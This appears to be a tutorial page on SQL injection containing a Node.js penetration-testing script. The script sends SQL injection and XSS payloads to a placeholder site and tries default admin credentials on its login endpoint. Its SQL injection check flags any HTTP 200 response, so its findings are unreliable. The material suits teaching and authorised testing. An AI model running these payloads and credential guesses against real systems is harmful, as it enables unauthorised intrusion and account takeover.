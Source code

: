 What is SQL Injection (SQLi) Vulnerability?

// Penetration Testing Script for Web Applications
// IMPORTANT: This script is for educational purposes only. Unauthorized testing is illegal.

const axios = require('axios');

// Configurations
const targetURL = 'https://example.com'; // Target URL

// Function to test for SQL Injection
async function testSQLInjection() {
  const payloads = ["' OR 1=1--", "' OR 'a'='a", "' OR 'a'='a'--"];
  for (let payload of payloads) {
    try {
      const response = await axios.get(`${targetURL}/vulnerableEndpoint?param=${payload}`);
      if (response.data.includes('SQL error') || response.status === 200) {
        console.log(`Potential SQL Injection vulnerability detected with payload: ${payload}`);
      } else {
        console.log(`Payload: ${payload} did not trigger SQL injection.`);
      }
    } catch (error) {
      console.error(`Error testing SQL Injection with payload: ${payload}`, error);
    }
  }
}

// Function to test for XSS
async function testXSS() {
  const payloads = ["<script>alert('XSS')</script>", "'><script>alert('XSS')</script>"];
  for (let payload of payloads) {
    try {
      const response = await axios.get(`${targetURL}/vulnerableEndpoint?param=${encodeURIComponent(payload)}`);
      if (response.data.includes(payload)) {
        console.log(`Potential XSS vulnerability detected with payload: ${payload}`);
      } else {
        console.log(`Payload: ${payload} did not trigger XSS.`);
      }
    } catch (error) {
      console.error(`Error testing XSS with payload: ${payload}`, error);
    }
  }
}

// Function to test insecure authentication mechanisms
async function testInsecureAuthentication() {
  const weakCredentials = [
    { username: 'admin', password: 'admin' },
    { username: 'admin', password: 'password' },
    { username: 'user', password: 'user' }
  ];
  for (let creds of weakCredentials) {
    try {
      const response = await axios.post(`${targetURL}/login`, creds);
      if (response.status === 200 && response.data.includes('Welcome')) {
        console.log(`Insecure authentication detected with credentials: ${JSON.stringify(creds)}`);
      } else {
        console.log(`Credentials: ${JSON.stringify(creds)} did not log in successfully.`);
      }
    } catch (error) {
      console.error(`Error testing authentication with credentials: ${JSON.stringify(creds)}`, error);
    }
  }
}

// Main function to run all tests
async function runPenetrationTests() {
  console.log('Starting penetration tests...');
  await testSQLInjection();
  await testXSS();
  await testInsecureAuthentication();
  console.log('Penetration tests completed.');
}

// Run the tests
runPenetrationTests();














